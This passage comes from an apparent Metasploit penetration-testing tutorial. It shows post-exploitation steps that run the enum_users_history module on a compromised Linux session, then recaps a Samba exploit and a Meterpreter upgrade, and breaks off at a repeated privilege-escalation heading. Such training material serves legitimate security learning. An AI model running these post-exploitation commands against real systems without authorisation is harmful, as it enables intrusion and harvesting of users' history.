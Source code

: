 ```bash
run
```

#### Enumerating User History

Search for the **enum_users_history** module:

```bash
search enum_users_history
```

Use the module to gather user history:

```bash
use post/linux/gather/enum_users_history
```

Set the session:

```bash
set session 3
```

Run the module:

```bash
run
```

Review the gathered information:

```bash
loot
cat [path to linux.enum.users_749147.txt]
```

### Conclusion

What we accomplished:
- Gained access to a Linux system using the **Samba exploit**.
- Upgraded the initial **cmd shell** to a **Meterpreter session** for more advanced post-exploitation tasks.
- Performed basic system enumeration using the Linux terminal.
- Used various **post-exploitation modules** to gather system information, network details, user history, installed packages, and protection mechanisms.

# Linux Privilege Escalation: Exploiting A Vulnerable Program

- The privilege escalation techniques we can utilize will depend on the version of the Linux kernel running on the target system as well as the distribution release version.
- MSF offers very little in regards to Linux kernel exploit modules, however, in some cases, there may be an exploit module that can be utilized to exploit a vulnerable service or program in order to elevate our privileges.

# Linux Privilege Escalation: Exploiting A Vulnerable Program
